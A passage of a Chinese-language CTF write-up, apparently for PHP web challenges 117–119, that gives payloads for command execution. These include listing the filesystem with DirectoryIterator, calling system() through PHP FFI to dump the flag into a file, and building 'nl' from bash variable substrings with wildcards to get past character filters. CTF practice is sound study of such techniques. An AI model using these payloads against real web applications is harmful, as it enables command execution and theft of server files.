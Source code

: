 通过FFI，可以实现调用system函数，从而将flag直接写入一个新建的文本文件中，然后访问这个文本文件，获得flag

payload:
```
//首先是熟悉的确定flag位置和名称
c=?><?php 
	$a=new DirectoryIterator("glob:///*"); 
	foreach($a as $f) 
	{ 
		echo($f->__toString().'  ');
	} 
	exit();
?>
//FFI调用system函数
c=
$ffi=FFI :: cdef("int system(const char *command);");
$a='/readflag > 1.txt';
$ffi->system($a);
exit();

再访问1.txt
```

---
## web118(*)
可以用Linux中内置的bash变量来做，具体知识可以参考：[常见Bash内置变量介绍](https://www.cnblogs.com/sparkdev/p/9934595.html#title_0)（可以去Linux命令行里自己实际操作下，加深理解）

```
root@baba:~# echo ${PWD}
/root
root@baba:~# echo ${PWD:1:1}   //表示从第2（1+1）个字符开始的一个字符
r
root@baba:~# echo ${PWD:0:1}   //表示从第1（0+1）个字符开始的一个字符
/
root@baba:~# echo ${PWD:~0:1}  //表示从最后一个字符开始的一个字符
t
root@baba:~# echo ${PWD:~A}    //字母代表0
t
```

发现网站报错的路径是/var/www/html，那么`${PWD:~A}`的结果就应该是’ l ‘，因为`${PATH}`通常是bin所以`${PATH:~A}`的结果是’ n '，那么他们拼接在一起正好是nl，能够读取flag，因为通配符没有被过滤，所以可以用通配符代替flag.php

payload：
```
 code=${PATH:~A}${PWD:~A} ????.???
```
---
## web119
可以构造出/bin/base64 flag.php，只需要`/和4`两个字符就行，其他的可以用通配符代替。
